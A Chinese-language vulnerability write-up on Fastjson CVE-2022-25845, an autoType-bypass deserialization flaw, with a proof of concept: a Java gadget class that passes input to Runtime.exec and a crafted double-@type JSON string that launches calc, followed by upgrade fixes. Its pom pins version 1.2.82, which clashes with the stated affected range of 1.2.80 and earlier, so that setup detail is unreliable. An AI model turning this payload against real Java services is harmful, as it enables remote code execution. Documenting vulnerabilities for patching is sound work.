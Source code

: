 # Fastjson 远程代码执行漏洞 CVE-2022-25845

## 漏洞描述

Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列 化到 JavaBean。在 Fastjson 1.2.80 及以下版本中存在反序列化漏洞，攻击者可 以在特定依赖下利用此漏洞绕过默认 autoType 关闭限制，从而反序列化有安全风险的类。

## 漏洞影响

```
Fastjson ≤ 1.2.80
```

## 漏洞复现

利用 idea 创建 maven 项目 搭建漏洞环境，在 pom 文件中添加

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.82</version>
</dependency> 
```

创建文件夹 com.example.fastjson，在下面添加两个 java 文件

```
package com.example.fastjson;
 
import java.io.IOException;
 
public class Poc extends Exception {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
package com.example.fastjson;
import com.alibaba.fastjson.JSON;
 
public class PocDemo {
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.Poc\",\"name\":\"calc\"}";
        JSON.parse(json);
    }
}
```

运行 PocDemo

## 漏洞修复

1. 升级至版本 FastJson 1.2.83：https://github.com/alibaba/fastjson/releases/tag/1.2.83
2. 升级到 FastJosn v2：https://github.com/alibaba/fastjson2/releases
